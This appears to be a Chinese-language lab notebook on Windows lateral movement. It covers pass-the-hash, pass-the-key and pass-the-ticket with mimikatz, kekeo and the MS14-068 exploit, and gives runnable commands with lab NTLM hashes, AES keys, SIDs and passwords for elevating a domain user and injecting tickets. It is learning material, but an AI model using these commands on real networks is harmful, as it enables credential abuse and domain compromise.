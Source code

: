 ```powershell
PTH(pass the hash) #利用lm或ntlm的值进行的渗透测试

PTT(pass the ticket) #利用的票据凭证TGT进行的渗透测试

PTK(pass the key)     #利用的ekeys aes256进行渗透测试
#PTH在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTL Hash访问远程主机或服务，而不用提供明文密码。
如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接
但是使用mimikatz还是可以攻击成功。对于8.1/2012r2，安装补丁kb2871997的win7/2008r2/8/2012等，可以使用AEs keys代替NT hash来实现ptk攻击
总结:KB2871997补丁后的影响

pth:没打补丁用户都可以连接，打了补丁只能administrator连接ptk:打了补丁才能用户都可以连接，采用aes256连接
https://www.freebuf.com/column/220740.html

#PTT攻击的部分就不是简单的NTLM认证了，它是利用Kerberos协议进行攻击的，这里就介绍三种常见的攻击方法:MS14-068，Golden ticket,SILVER
ticket，简单来说就是将连接合法的票据注入到内存中实现连接。
MS14-068基于漏洞，Golden ticket(黄金票据)，SILVER ticket(白银票据)其中Golden ticket(黄金票据)，SILVER ticket(白银票据)属于权限维持技术MS14-068造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是kb3011780
```

## mimikatz-PTH传递

```php
sekurlsa::pth /user:administrator /domain:yu /ntlm:472CFC678748245CD6B295986B7FEA33  //由于没有指定ip,其实在实战中不会知道自己链接的ip是多少,需要自己去挨着试
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:afffeba176210fad4628f0524bfe1942 //攻击的是本地用户
dir \\192.168.10.3\c$      //在没有链接ipc的情况下成功列出目录
```

![image-20210410161636887]([横向渗透3]PRH&PTT&PTK/image-20210410161636887.png)

mimikatz需要使用privilege::debug,所以还是需要管理员权限,这里用了之后直接弹了个administrator的shell出来

![image-20210410161935975]([横向渗透3]PRH&PTT&PTK/image-20210410161935975.png)

退出mimikatz之后可以访问目录,但是我这是管理员,本身也可以访问该目录呀,

![image-20210410163057203]([横向渗透3]PRH&PTT&PTK/image-20210410163057203.png)

这个是直接访问的目录,输出还是有点不一样的,应该是获得了凭证吧，想不明白,反正拿了个shell应该也差不多了

## mimikatz-PTK传递

```powershell
privilege::debug
sekurlsa::ekeys #获取aes
sekurlsa::pth /user:administrator /domain:yu /aes256:988d008c5b795719be5e23e900376dea5d5e645c302ca913561db323b331c838
```

![image-20210410162342707]([横向渗透3]PRH&PTT&PTK/image-20210410162342707.png)

一复制就成这样

```powershell
mimikatz "privilege::debug" "sekurlsa::ekeys" >1.txt
```

把输出写入到文件中

![image-20210410162705019]([横向渗透3]PRH&PTT&PTK/image-20210410162705019.png)

使用mimikatz成功拿到shell

## PTT传递-ms14068&kekeo&本地

### ms14068

第一种利用漏洞：
能实现普通用户直接获取域控system权限

```powershell
MS14-068 powershell执行
1.查看当前sid whoami/user
2.mimikatz # kerberos::purge
//清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件 //将票据注入到内存中
3.利用ms14-068生成TGT数据
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
MS14-068.exe -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.3.21 -p admin!@#45 //若没有明文密码 可以使用--rc4:hash密文
4.票据注入内存
mimikatz.exe "kerberos::ptc TGT_mary@god.org.ccache" exit
5.查看凭证列表 klist
6.利用
dir \192.168.3.21\c$
```

![image-20210409214750100](file://C:\Users\86136\Desktop\小迪\内网安全\内网\image-20210409214750100.png?lastModify=1618043787)

![image-20210409220723326](file://C:\Users\86136\Desktop\小迪\内网安全\内网\image-20210409220723326.png?lastModify=1618043790)

看网上说的是为win2003或者xp无法伪造票据,换win7试,然后

![image-20210409223204647](file://C:\Users\86136\Desktop\小迪\内网安全\内网\image-20210409223204647.png?lastModify=1618043794)

导入票据

![image-20210409223157616](file://C:\Users\86136\Desktop\小迪\内网安全\内网\image-20210409223157616.png?lastModify=1618043811)

这里有一个注意点,这里的dc.yu.com必须使用域名,而不能使用ip,因为在通信中是用域名通信的

### kekeo

```powershell
第二种利用工具kekeo
1.生成票据
kekeo "tgt::ask /user:mary /domain:god.org /ntlm:518b98ad4178a53695dc997aa02d455c"
2.导入票据
kerberos::ptt TGT_mary@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
3.查看凭证 klist
4.利用net use载入
dir \192.168.3.21\c$
```

### 本地导入

```powershell
第三种利用本地票据(需管理权限)
sekurlsa::tickets /export
kerberos::ptt xxxxxxxxxx.xxxx.kirbi
总结：ptt传递不需本地管理员权限，连接时主机名连接，基于漏洞,工具,本地票据
```

## 国产Ladon内网杀器测试验收

信息收集-协议扫描-漏洞探针-传递攻击等,就是一个自动化攻击的工具